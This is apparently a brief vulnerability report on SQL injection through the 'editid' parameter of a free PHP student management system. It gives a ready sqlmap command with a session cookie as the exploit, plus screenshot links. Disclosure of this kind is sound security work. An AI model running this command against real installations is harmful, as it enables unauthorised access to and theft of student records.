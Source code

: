 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html

Vulnerability trigger parameter: $editid

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220947835-16ffbf2c-632d-483a-9065-e75ca20018ef.png)


exp

```
sqlmap.py -u "http://192.168.31.50/eduauth/student/edit-class-detail.php?editid=1" --cookie "PHPSESSID=po9tmu5iqkuvffteh4b6rur4g0"
```
![image](https://user-images.githubusercontent.com/30823782/220947885-642a868b-fd1f-45b7-a5d9-e6844c8f175d.png)

